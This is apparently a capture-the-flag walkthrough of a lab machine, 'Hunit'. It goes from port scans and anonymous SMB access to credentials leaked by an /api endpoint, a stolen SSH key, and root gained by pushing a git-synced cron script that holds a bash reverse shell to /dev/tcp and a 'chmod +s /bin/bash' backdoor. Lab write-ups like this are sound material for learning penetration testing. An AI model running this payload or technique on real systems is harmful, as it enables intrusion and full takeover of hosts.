




Like always, I started with a comprehensive TCP scan on all 65,535 ports followed by a targeted scan on the discovered ports and a UDP scan on the top 10 ports.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-21 02:03 UTC
Nmap scan report for 192.168.159.125
Host is up (0.048s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE
8080/tcp open http-proxy
12445/tcp open unknown
18030/tcp open unknown
43022/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 43.85 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 8080,12445,18030,43022
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-21 02:06 UTC
Nmap scan report for 192.168.159.125
Host is up (0.090s latency).
PORT STATE SERVICE VERSION
8080/tcp open http Apache Tomcat (language: en)
|_http-title: My Haikus
12445/tcp open netbios-ssn Samba smbd 4
18030/tcp open http Apache httpd 2.4.46 ((Unix))
| http-methods:
|_ Potentially risky methods: TRACE
|_http-title: Whack A Mole!
|_http-server-header: Apache/2.4.46 (Unix)
43022/tcp open ssh OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey:
| 3072 7b:fc:37:b4:da:6e:c5:8e:a9:8b:b7:80:f5:cd:09:cb (RSA)
| 256 89:cd:ea:47:25:d9:8f:f8:94:c3:d6:5c:d4:05:ba:d0 (ECDSA)
|_ 256 c0:7c:6f:47:7e:94:cc:8b:f8:3d:a0:a6:1f:a9:27:11 (ED25519)
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 61.15 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-21 02:07 UTC
Nmap scan report for 192.168.159.125
Host is up (0.048s latency).
PORT STATE SERVICE
53/udp open|filtered domain
67/udp open|filtered dhcps
123/udp open|filtered ntp
135/udp open|filtered msrpc
137/udp open|filtered netbios-ns
138/udp open|filtered netbios-dgm
161/udp open|filtered snmp
445/udp open|filtered microsoft-ds
631/udp open|filtered ipp
1434/udp open|filtered ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 1.75 seconds
The SMB server appeared to be allowing null authentication. I found Commander share which contained considerable amount of files.
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP -p 12445
Anonymous login successful
Sharename Type Comment
--------- ---- -------
Commander Disk Dademola Files
IPC$ IPC IPC Service (Samba 4.13.2)
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.159.125 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient //$IP/Commander -p 12445
Password for [WORKGROUP\\kali]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \\> dir
. D 0 Fri Nov 6 18:11:27 2020
.. D 0 Fri Jan 15 17:58:49 2021
25_tailrec_function.kt N 479 Fri Nov 6 18:11:16 2020
30_abstract_class.kt N 822 Fri Nov 6 18:11:16 2020
48_lazy_keyword.kt N 861 Fri Nov 6 18:11:16 2020
24_infix_function.kt N 528 Fri Nov 6 18:11:16 2020
52_let_scope_function.kt N 545 Fri Nov 6 18:11:16 2020
26_class_and_constructor.kt N 470 Fri Nov 6 18:11:16 2020
4_variables_data_types.kt N 493 Fri Nov 6 18:11:16 2020
40_arrays.kt N 469 Fri Nov 6 18:11:16 2020
44_filter_map_sorting.kt N 927 Fri Nov 6 18:11:16 2020
6_kotlin_basics.kt N 163 Fri Nov 6 18:11:16 2020
35_lambdas_higher_order_functions.kt N 1190 Fri Nov 6 18:11:16 2020
5_kotlin_basics.kt N 263 Fri Nov 6 18:11:16 2020
43_set_hashset.kt N 498 Fri Nov 6 18:11:16 2020
10_if_expression.kt N 372 Fri Nov 6 18:11:16 2020
13_while_loop.kt N 301 Fri Nov 6 18:11:16 2020
21_named_parameters.kt N 251 Fri Nov 6 18:11:16 2020
42_map_hashmap.kt N 601 Fri Nov 6 18:11:16 2020
47_lateinit_keyword.kt N 568 Fri Nov 6 18:11:16 2020
41_list.kt N 704 Fri Nov 6 18:11:16 2020
17_functions_basics.kt N 171 Fri Nov 6 18:11:16 2020
36_lambdas_example_two.kt N 556 Fri Nov 6 18:11:16 2020
myKotlinInteroperability.kt N 228 Fri Nov 6 18:11:16 2020
3_comments.kt N 217 Fri Nov 6 18:11:16 2020
1_hello_world.kt N 80 Fri Nov 6 18:11:16 2020
22_extension_function_one.kt N 413 Fri Nov 6 18:11:16 2020
51_also_scope_function.kt N 882 Fri Nov 6 18:11:16 2020
50_apply_scope_function.kt N 663 Fri Nov 6 18:11:16 2020
18_functions_as_expressions.kt N 421 Fri Nov 6 18:11:16 2020
45_predicate.kt N 646 Fri Nov 6 18:11:16 2020
37_lambdas_closures.kt N 358 Fri Nov 6 18:11:16 2020
12_for_loop.kt N 257 Fri Nov 6 18:11:16 2020
23_extension_function_two.kt N 510 Fri Nov 6 18:11:16 2020
10_default_functions.kt N 226 Fri Nov 6 18:11:16 2020
I am able to upload to the share.
smb: \\> put cat.jpg
putting file cat.jpg as \\cat.jpg (102.9 kb/s) (average 102.9 kb/s)
Since there are considerable number of files, I mounted the share into my local Kali.
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo mount -t cifs //$IP/Commander/ wooksmb -o guest,port=12445
Looking through the files, I found what appeared to be usernames, so I took a note of them.

Whenever I see an HTTP server running, the first thing I do is to run the Nmap script below which found /api directory.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=http-enum -p 8080,18030
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-21 02:08 UTC
Nmap scan report for 192.168.159.125
Host is up (0.049s latency).
PORT STATE SERVICE VERSION
8080/tcp open http Apache Tomcat (language: en)
| http-enum:
|_ /api/: Potentially interesting folder
18030/tcp open http Apache httpd 2.4.46 ((Unix))
|_http-server-header: Apache/2.4.46 (Unix)
| http-enum:
|_ /icons/: Potentially interesting folder w/ directory listing
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 129.98 seconds
The server returned the ‘Whitelabel Error Page’ when I visited /robots.txt which indicates Spring Boot is being used.


I visited /api and it returned the following JSON objects.

I found a few credentials in /api/article and /api/user
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -L <http://$IP:8080/api/article/> | jq
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 2353 0 2353 0 0 24322 0 --:--:-- --:--:-- --:--:-- 24510
[
{
"title": "The Taste of Rain",
"headline": "Jack Kerouac",
"content": "The taste, Of rain, —Why kneel?",
"author": {
"login": "jvargas",
"password": "OuQ96hcgiM5o9w",
"firstname": "James",
"lastname": "Vargas",
"description": "Editor",
"id": 10
},
"slug": "the-taste-of-rain",
"addedAt": "2025-02-27T03:22:23.656467",
"id": 12
},
{
"title": "In a Station of the Metro",
"headline": "Ezra Pound",
"content": "The apparition of these faces in the crowd; Petals on a wet, black bough.",
"author": {
"login": "jvargas",
"password": "OuQ96hcgiM5o9w",
"firstname": "James",
"lastname": "Vargas",
"description": "Editor",
"id": 10
},
"slug": "in-a-station-of-the-metro",
"addedAt": "2025-02-27T03:22:23.655577",
"id": 11
},
{
"title": "Over the Wintry",
"headline": "Natsume Soseki",
"content": "Over the wintry Forest, winds howl in rage, With no leaves to blow.",
"author": {
"login": "jwinters",
"password": "KTuGcSW6Zxwd0Q",
"firstname": "Julie",
"lastname": "Winters",
"description": "Editor",
"id": 7
},
"slug": "over-the-wintry",
"addedAt": "2025-02-27T03:22:23.653903",
"id": 9
},
{
"title": "A Poppy Blooms",
"headline": "Katsushika Hokusai",
"content": "I write, erase, rewrite. Erase again, and then, A poppy blooms.",
"author": {
"login": "jwinters",
"password": "KTuGcSW6Zxwd0Q",
"firstname": "Julie",
"lastname": "Winters",
"description": "Editor",
"id": 7
},
"slug": "a-poppy-blooms",
"addedAt": "2025-02-27T03:22:23.652953",
"id": 8
},
{
"title": "Lighting One Candle",
"headline": "Yosa Buson",
"content": "The light of a candle, Is transferred to another candle—, Spring twilight",
"author": {
"login": "jsanchez",
"password": "d52cQ1BzyNQycg",
"firstname": "Jennifer",
"lastname": "Sanchez",
"description": "Editor",
"id": 3
},
"slug": "lighting-one-candle",
"addedAt": "2025-02-27T03:22:23.650466",
"id": 5
},
{
"title": "A World of Dew",
"headline": "Kobayashi Issa",
"content": "A world of dew, And within every dewdrop, A world of struggle. ",
"author": {
"login": "jsanchez",
"password": "d52cQ1BzyNQycg",
"firstname": "Jennifer",
"lastname": "Sanchez",
"description": "Editor",
"id": 3
},
"slug": "a-world-of-dew",
"addedAt": "2025-02-27T03:22:23.649477",
"id": 4
},
{
"title": "The Old Pond",
"headline": "Matsuo Basho",
"content": "An old silent pond, A frog jumps into the pond—, Splash! Silence again.",
"author": {
"login": "rjackson",
"password": "yYJcgYqszv4aGQ",
"firstname": "Richard",
"lastname": "Jackson",
"description": "Editor",
"id": 1
},
"slug": "the-old-pond",
"addedAt": "2025-02-27T03:22:23.640069",
"id": 2
}
]
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -L <http://$IP:8080/api/user/> | jq
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 609 0 609 0 0 6176 0 --:--:-- --:--:-- --:--:-- 6214
[
{
"login": "rjackson",
"password": "yYJcgYqszv4aGQ",
"firstname": "Richard",
"lastname": "Jackson",
"description": "Editor",
"id": 1
},
{
"login": "jsanchez",
"password": "d52cQ1BzyNQycg",
"firstname": "Jennifer",
"lastname": "Sanchez",
"description": "Editor",
"id": 3
},
{
"login": "dademola",
"password": "ExplainSlowQuest110",
"firstname": "Derik",
"lastname": "Ademola",
"description": "Admin",
"id": 6
},
{
"login": "jwinters",
"password": "KTuGcSW6Zxwd0Q",
"firstname": "Julie",
"lastname": "Winters",
"description": "Editor",
"id": 7
},
{
"login": "jvargas",
"password": "OuQ96hcgiM5o9w",
"firstname": "James",
"lastname": "Vargas",
"description": "Editor",
"id": 10
}
]
dademola is the only user that has a readable password, so I’m going to prioritize the user for authentication.
jvargas:OuQ96hcgiM5o9w
jwinters:KTuGcSW6Zxwd0Q
jsanchez:d52cQ1BzyNQycg
rjackson:yYJcgYqszv4aGQ
dademola:ExplainSlowQuest110
dademolaI was able to login to SSH with dademola ’s credentials.
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh dademola@$IP -p 43022
dademola@192.168.159.125's password:
[dademola@hunit ~]$ whoami
dademola
Found local.txt
dademola@hunit ~]$ ls
blog.jar local.txt shared
[dademola@hunit ~]$ cat local.txt
e9c523042bb9e0815e56be225fd795f2
cat /etc/passwd command revealed there’s git user and it’s using git-shell for default shell.
[dademola@hunit .ssh]$ cat /etc/passwd
root:x:0:0::/root:/bin/bash
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
mail:x:8:12::/var/spool/mail:/usr/bin/nologin
ftp:x:14:11::/srv/ftp:/usr/bin/nologin
http:x:33:33::/srv/http:/usr/bin/nologin
nobody:x:65534:65534:Nobody:/:/usr/bin/nologin
dbus:x:81:81:System Message Bus:/:/usr/bin/nologin
systemd-journal-remote:x:982:982:systemd Journal Remote:/:/usr/bin/nologin
systemd-network:x:981:981:systemd Network Management:/:/usr/bin/nologin
systemd-resolve:x:980:980:systemd Resolver:/:/usr/bin/nologin
systemd-timesync:x:979:979:systemd Time Synchronization:/:/usr/bin/nologin
systemd-coredump:x:978:978:systemd Core Dumper:/:/usr/bin/nologin
uuidd:x:68:68::/:/usr/bin/nologin
dhcpcd:x:977:977:dhcpcd privilege separation:/:/usr/bin/nologin
dademola:x:1001:1001::/home/dademola:/bin/bash
git:x:1005:1005::/home/git:/usr/bin/git-shell
avahi:x:976:976:Avahi mDNS/DNS-SD daemon:/:/usr/bin/nologin
As expected, under the /home directory, there was git user.
[dademola@hunit home]$ ls -la
total 16
drwxr-xr-x 4 root root 4096 Nov 5 2020 .
drwxr-xr-x 18 root root 4096 Nov 10 2020 ..
drwx------ 5 dademola dademola 4096 Jan 15 2021 dademola
drwxr-xr-x 4 git git 4096 Nov 5 2020 git
Also public key and private key are present.
[dademola@hunit .ssh]$ ls -la
total 20
drwxr-xr-x 2 git git 4096 Nov 5 2020 .
drwxr-xr-x 4 git git 4096 Nov 5 2020 ..
-rwxr-xr-x 1 root root 564 Nov 5 2020 authorized_keys
-rwxr-xr-x 1 root root 2590 Nov 5 2020 id_rsa
-rwxr-xr-x 1 root root 564 Nov 5 2020 id_rsa.pub
Transferred the private key to my local Kali and I successfully authenticated to SSH, but the shell was very limited not allowing me to execute any commands.
┌──(kali㉿kali)-[~/Desktop]
└─$ scp -P 43022 dademola@$IP:/home/git/.ssh/id_rsa .
dademola@192.168.159.125's password:
id_rsa 100% 2590 27.2KB/s 00:00
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh -i id_rsa git@$IP -p 43022
Last login: Wed Jan 21 03:44:48 2026 from 192.168.45.236
git> ls
unrecognized command 'ls'
git> help
unrecognized command 'help'
git> git status
unrecognized command 'git'
git-shell-commands directory is empty, which probably is the reason why none of the commands were recognized.
[dademola@hunit git]$ ls -la
total 28
drwxr-xr-x 4 git git 4096 Nov 5 2020 .
drwxr-xr-x 4 root root 4096 Nov 5 2020 ..
-rw------- 1 git git 0 Jan 15 2021 .bash_history
-rw-r--r-- 1 git git 21 Aug 9 2020 .bash_logout
-rw-r--r-- 1 git git 57 Aug 9 2020 .bash_profile
-rw-r--r-- 1 git git 141 Aug 9 2020 .bashrc
drwxr-xr-x 2 git git 4096 Nov 5 2020 .ssh
drwxr-xr-x 2 git git 4096 Nov 5 2020 git-shell-commands
There is git-server
[dademola@hunit /]$ ls -la
total 64
drwxr-xr-x 18 root root 4096 Nov 10 2020 .
drwxr-xr-x 18 root root 4096 Nov 10 2020 ..
lrwxrwxrwx 1 root root 7 Sep 2 2020 bin -> usr/bin
drwxr-xr-x 4 root root 4096 Nov 5 2020 boot
drwxr-xr-x 18 root root 3100 Feb 27 2025 dev
drwxr-xr-x 51 root root 4096 Jan 15 2021 etc
drwxr-xr-x 7 git git 4096 Nov 6 2020 git-server
drwxr-xr-x 4 root root 4096 Nov 5 2020 home
lrwxrwxrwx 1 root root 7 Sep 2 2020 lib -> usr/lib
lrwxrwxrwx 1 root root 7 Sep 2 2020 lib64 -> usr/lib
drwx------ 2 root root 16384 Nov 5 2020 lost+found
drwxr-xr-x 2 root root 4096 Sep 2 2020 mnt
drwxr-xr-x 2 root root 4096 Sep 2 2020 opt
dr-xr-xr-x 210 root root 0 Feb 27 2025 proc
drwxr-x--- 3 root root 4096 Jan 21 02:02 root
drwxr-xr-x 16 root root 500 Feb 27 2025 run
lrwxrwxrwx 1 root root 7 Sep 2 2020 sbin -> usr/bin
drwxr-xr-x 4 root root 4096 Nov 5 2020 srv
dr-xr-xr-x 13 root root 0 Feb 27 2025 sys
drwxrwxrwt 13 root root 300 Jan 21 04:09 tmp
drwxr-xr-x 8 root root 4096 Nov 10 2020 usr
drwxr-xr-x 12 root root 4096 Nov 10 2020 var
git log showed me there have been multiple commits.
[dademola@hunit git-server]$ git log --
commit b50f4e5415cae0b650836b5466cc47c62faf7341 (HEAD -> master)
Author: Dademola <dade@local.host>
Date: Thu Nov 5 21:05:58 2020 -0300
testing
commit c71132590f969b535b315089f83f39e48d0021e2
Author: Dademola <dade@local.host>
Date: Thu Nov 5 20:59:48 2020 -0300
testing
commit 8c0bc9aa81756b34cccdd3ce4ac65091668be77b
Author: Dademola <dade@local.host>
Date: Thu Nov 5 20:54:50 2020 -0300
testing
commit 574eba09bb7cc54628f574a694a57cbbd02befa0
Author: Dademola <dade@local.host>
Date: Thu Nov 5 20:39:14 2020 -0300
Adding backups
commit 025a327a0ffc9fe24e6dd312e09dcf5066a011b5
Author: Dademola <dade@local.host>
Date: Thu Nov 5 20:23:04 2020 -0300
Init
There’s this particular commit I’m interested: The user Dademola created backups.sh that contains nothing but the placeholder for now.
[dademola@hunit git-server]$ git show 574eba09bb7cc54628f574a694a57cbbd02befa0
commit 574eba09bb7cc54628f574a694a57cbbd02befa0
Author: Dademola <dade@local.host>
Date: Thu Nov 5 20:39:14 2020 -0300
Adding backups
diff --git a/backups.sh b/backups.sh
new file mode 100644
index 0000000..5a959db
--- /dev/null
+++ b/backups.sh
@@ -0,0 +1,5 @@
+#!/bin/bash
+#
+#
+# # Placeholder
+#
There’s one interesting cron job named crontab.bak running under root. Typically, the file extension .bak represents a backup file.
[dademola@hunit git-server]$ ls -la /etc/cron*
-rw-r--r-- 1 root root 74 Oct 31 2019 /etc/cron.deny
-rw-r--r-- 1 root root 66 Jan 15 2021 /etc/crontab.bak
/etc/cron.d:
total 12
drwxr-xr-x 2 root root 4096 Nov 5 2020 .
drwxr-xr-x 51 root root 4096 Jan 15 2021 ..
-rw-r--r-- 1 root root 128 Oct 31 2019 0hourly
/etc/cron.daily:
total 8
drwxr-xr-x 2 root root 4096 Oct 31 2019 .
drwxr-xr-x 51 root root 4096 Jan 15 2021 ..
/etc/cron.hourly:
total 12
drwxr-xr-x 2 root root 4096 Nov 5 2020 .
drwxr-xr-x 51 root root 4096 Jan 15 2021 ..
-rwxr-xr-x 1 root root 580 Oct 31 2019 0anacron
/etc/cron.monthly:
total 8
drwxr-xr-x 2 root root 4096 Oct 31 2019 .
drwxr-xr-x 51 root root 4096 Jan 15 2021 ..
/etc/cron.weekly:
total 8
drwxr-xr-x 2 root root 4096 Oct 31 2019 .
drwxr-xr-x 51 root root 4096 Jan 15 2021 ..
I think I’ve just identified a privilege escalation vector via cronjobs running as root. It appears that /root/pull.sh (every 2 minutes) fetches updates from the Git server, while /root/git-server/backups.sh (every 3 minutes) runs them. If I modify backups.sh with a reverse shell and push it to server, the automated sync will pull my code into the root environment and trigger it, granting me root access.
[dademola@hunit git-server]$ cat /etc/crontab.bak
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh
Since the SSH service is running on a non-standard port (43022) and I need to authenticate to the server using a private key, I used the GIT_SSH_COMMAND environment variable to authenticate and clone the repository to my local machine.
┌──(kali㉿kali)-[~/Desktop]
└─$ GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@$IP:/git-server
Cloning into 'git-server'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 12 (delta 2), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (12/12), done.
Resolving deltas: 100% (2/2), done.
Now I modified the backups.sh file to include a bash reverse shell payload. Don’t forget to make it executable.
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ ls -la
total 20
drwxrwxr-x 3 kali kali 4096 Jan 21 04:43 .
drwxr-xr-x 6 kali kali 4096 Jan 21 04:43 ..
-rw-rw-r-- 1 kali kali 34 Jan 21 04:43 backups.sh
drwxrwxr-x 8 kali kali 4096 Jan 21 04:43 .git
-rw-rw-r-- 1 kali kali 0 Jan 21 04:43 NEW_CHANGE
-rw-rw-r-- 1 kali kali 63 Jan 21 04:43 README
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ cat backups.sh
#!/bin/bash
#
#
# # Placeholder
#
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ cat backups.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.236/18030 0>&1
chmod +s /bin/bash
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ chmod +x backups.sh
After configuring a dummy git identity, I committed the changes and pushed them back to the server.
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ git add .
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ git commit -m "wook was here"
Author identity unknown
*** Please tell me who you are.
Run
git config --global user.email "you@example.com"
git config --global user.name "Your Name"
to set your account's default identity.
Omit --global to set the identity only in this repository.
fatal: unable to auto-detect email address (got 'kali@kali.(none)')
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ git config --global user.email "wook@wook.com"
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ git config --global user.name "wook"
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ git commit -m "wook was here"
[master a09ca70] wook was here
1 file changed, 1 insertion(+), 4 deletions(-)
┌──(kali㉿kali)-[~/Desktop/git-server]
└─$ GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push origin master
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 4 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 260 bytes | 260.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0 (from 0)
To 192.168.159.125:/git-server
b50f4e5..a09ca70 master -> master
rootAfter waiting for a few moments, I got the shell as root.
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 penelope.py -p 18030
[+] Listening for reverse shells on 0.0.0.0:18030 → 127.0.0.1 • 192.168.136.128 • 172.17.0.1 • 172.20.0.1 • 192.168.45.236
➤ 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from hunit~192.168.159.125-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/sbin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12
[+] Logging to /home/kali/.penelope/sessions/hunit~192.168.159.125-Linux-x86_64/2026_01_21-05_27_02-417.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
[root@hunit ~]# whoami
root
[root@hunit ~]# id
uid=0(root) gid=0(root) groups=0(root)
[root@hunit ~]#
Found proof.txt
[root@hunit ~]# ls
git-server proof.txt pull.sh
[root@hunit ~]# cat proof.txt
9bc...